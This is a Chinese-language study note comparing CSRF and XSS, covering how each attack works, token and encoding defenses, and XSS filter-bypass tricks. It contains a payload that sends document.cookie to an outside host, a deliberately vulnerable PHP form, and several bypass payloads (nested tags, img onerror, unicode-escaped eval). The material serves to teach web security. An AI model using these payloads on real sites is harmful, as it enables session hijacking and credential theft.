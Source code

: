 XSRF(或叫做CSRF)和XSS
CSRF(Cross-site request forgery)跨站请求伪造：通过伪装来自受信任用户的请求来利用受信任的网站。
XSS(Cross Site Scripting)跨站脚本攻击
CSRF重点在请求,XSS重点在脚本

CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。
XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为；

* ### CSRF
    + CSRF攻击原理
        1. 用户登录受信任网站A，浏览器保存了A的Cookie
        2. 用户在没有登出A网站的情况下，访问危险网站B
        3. B在用户不知情的情况下向第三方站点A发起一个请求R
        4. 因为A没有做防止CSRF的措施，A无法判断请求是用户发出的还是其他站点发出的。
        5. 浏览器会自动带上用户在A网站的Cookie，所以A网站会当做用户在发起请求R。

        + 总结
        CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

    + CSRF的防御
    一般在服务端进行CSRF防御，效果也比较好(客户端也可以)
    服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数。
    （因为攻击者无法读取非同源站点的Cookie作为本次请求的参数，注意，是参数不是Cookie，浏览器还是会自动带上Cookie，服务器会验证参数和Cookie值是否相同）
        1. Cookie Hashing(所有表单都包含同一个伪随机值)：在表单里增加Hash值，以认证这确实是用户发送的请求。
        `<input type=”hidden” name=”hash” value=”<?=$hash;?>”>`
        2. One-Time Tokens(不同的表单包含一个不同的伪随机值，在页面上生成一个Token，发请求的时候把Token带上。处理请求的时候需要验证Cookies+Token。)
        3. 验证码：用户填写图片验证码，易用性不太好。

* ### XSS
    + 原理
        XSS本质是Html注入，和SQL注入差不多。
        XSS跨站攻击就是在网页里面埋入恶源代码，劫持用户的信息投递到预设的网站上去的一种黑客攻击手段。
        举个栗子：把网页比作一瓶液体，普通用户看来透明的应该可以喝，就直接喝了（访问），黑客XSS攻击者就相当于在水里投一种无色无味的毒药，你喝掉就被控制了，主动把身上的钱啊（cookie） 银行卡密码（存储的账号密码）啊都交了出来，甚至你自己还不知道。
        ```
        # 这里是一个表单输入框，正常应该输入一个地址，但是攻击者可能输入一段html代码，如：
        #   "/> <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--
        <form>
        <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />
        <input type="submit" value="Submit" />  
        </form>

        # 于是，代码变为如下，目的是获取本机存储的该域名的cookie发送到另一个地址
        <form>
        <input style="width:300px;" type="text" name="address1" value=""/>
        <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--" />
        <input type="submit" value="Submit" />  
        </form>
        ```

    + 类型
        + 反射型XSS，又称非持久型XSS：将恶意的脚本附加到URL地址的参数中，一般是将构造好的URL发给受害者，是受害者点击触发，而且只执行一次，非持久化。
        + 储存型XSS，也就是持久型XSS：攻击者事先讲恶意JavaScript代码上传或存储到漏洞服务器中，只要受害者浏览包含此恶意的代码的页面就会执行恶意代码。

    + 防范手段
        + 过滤：对诸如<script>、<img>、<a>等标签进行过滤。
        + 编码：像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
        + 限制：xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

    + 绕过
        + 大小写绕过
        这个绕过方式的出现是因为网站仅仅只过滤了<script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。
        
        + 利用过滤后返回语句再次构成攻击语句来绕过
        网站可能过滤了 script标签，我们可以在script关键字中间嵌套script标签，中间的script被过滤删除之后，剩下的内容正好又构造了一个script标签。
        例如：<sCri<script>pt>alert("hey!")</scRi</script>pt>
        
        + 利用其它标签
            + <img>：我们指定的图片地址不存在，就一定会发生错误，会执行onerror。
            http://192.168.1.102/xss/example4.php?name=<img src='w.123' onerror='alert("hey!")'>
            + <a onmousemove=’do something here’> ：当用户鼠标移动时即可运行代码
            + <div onmouseover=‘do something here’> ： 当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）
        
        + 编码脚本代码绕过关键字过滤
        服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。
        不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行。
        例如alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)。
        http://192.168.1.102/xss/example5.php?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>

        + 主动闭合标签实现注入代码
        填入的参数放到了script脚本的变量里面，可以先加双引号将变量左边的双引号关闭，然后执行我们的脚本，然后再加双引号闭合原变量右边的双引号。
        ```
        # 访问 http://localhost:81/xss.php?name=hacker
        <script>
            var $a= "hacker";
        </script>

        # 此时不传hacker，改为 http://localhost:81/xss.php?name=";alert("I amcoming again~");"
        <script>
            var $a= "";alert("I amcoming again~");"";
        </script>
        ```